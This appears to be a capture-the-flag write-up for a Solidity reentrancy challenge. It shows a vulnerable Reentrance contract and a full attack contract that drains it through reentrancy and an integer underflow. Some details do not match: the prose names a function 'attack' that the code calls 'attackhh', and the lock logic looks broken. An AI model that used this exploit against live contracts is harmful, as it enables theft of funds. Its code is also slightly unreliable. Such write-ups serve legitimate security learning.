 **Description**

This challenge has 2 different vulnerabilities that we are going to use: , first one is reentrancy, and the second one is an `integer underflow`. Looking at the source code, the first naive solution would be to just keep calling the withdraw function from the `receive` function since it's the one provoked when receiving ETH, but that would consume a lot of resources, so we are going to use the `integer underflow` in our profit.

* Reentrance.sol
```solidity=
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public constant returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() payable {}
}
```

**Attack Scenario**
First, we are going to implement our attack contract, which will look something like this:

- **Attack.sol**
```
pragma solidity 0.8.0;

interface IReentrancy {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Attack {
    bool public    lock;
    function deposit() external payable
    {
        IReentrancy(0x8e992b3203725385bCD2FA89a5d9eB64C8983F75).donate{value: 100}(address(this));
    }
    function attackhh() external
    {
        lock = false;
        IReentrancy(0x8e992b3203725385bCD2FA89a5d9eB64C8983F75).withdraw(100);
    }

    function withdrawAll() external {
        IReentrancy(0x8e992b3203725385bCD2FA89a5d9eB64C8983F75).withdraw(address(0x8e992b3203725385bCD2FA89a5d9eB64C8983F75).balance);
    }
    receive() payable external{
        if (!lock)
            IReentrancy(0x8e992b3203725385bCD2FA89a5d9eB64C8983F75).withdraw(100);
        lock = false;
    }

    function withdraw() external
    {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

We will first call the `deposit` function to add ether to our balance, then the `attack` function, which will then try to withdraw from the `Reentrance`. The `Reentrance` will then provoke the `receive` method, which will then call the `withdraw` from the `Reentrance`. Now the amount will be subtracted twice from the balance, causing an integer underflow, so we will now call the `withdrawAll` function to withdraw.